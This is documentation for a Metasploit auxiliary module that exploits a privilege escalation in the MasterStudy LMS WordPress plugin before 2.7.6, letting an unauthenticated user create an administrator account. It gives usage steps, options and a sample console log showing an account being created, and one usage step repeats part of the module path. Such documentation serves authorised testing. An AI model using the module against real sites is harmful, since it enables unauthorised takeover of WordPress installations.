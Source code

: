 ## Vulnerable Application

MasterStudy LMS, a WordPress plugin,
prior to 2.7.6 is affected by a privilege escalation where an unauthenticated
user is able to create an administrator account for wordpress itself.

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/masterstudy-lms-learning-management-system.2.7.5.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/auxiliary/admin/http/wp_masterstudy_privesc`
  3. `set RHOSTS <rhost>`
  4. `run`

## Options

### USERNAME

Set a `USERNAME` if desirable. Defaults to empty, and random generation.

### PASSWORD

Set a `PASSWORD` if desirable. Defaults to empty, and random generation.

### EMAIL

Set a `EMAIL` if desirable. Defaults to empty, and random generation.

## Scenarios

### MasterStudy 2.7.5 on WordPress 5.7.5

```
[*] Processing masterstudy.rb for ERB directives.
resource (masterstudy.rb)> use auxiliary/admin/http/wp_masterstudy_privesc
resource (masterstudy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (masterstudy.rb)> set verbose true
verbose => true
resource (masterstudy.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/masterstudy-lms-learning-management-system/readme.txt
[*] Found version 2.7.5 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting with username: ujukzntw7 password: TbxjFm0znF email: ashley.thompson@gcvz2cibu.org
[+] Account Created Successfully
[*] Auxiliary module execution completed
```
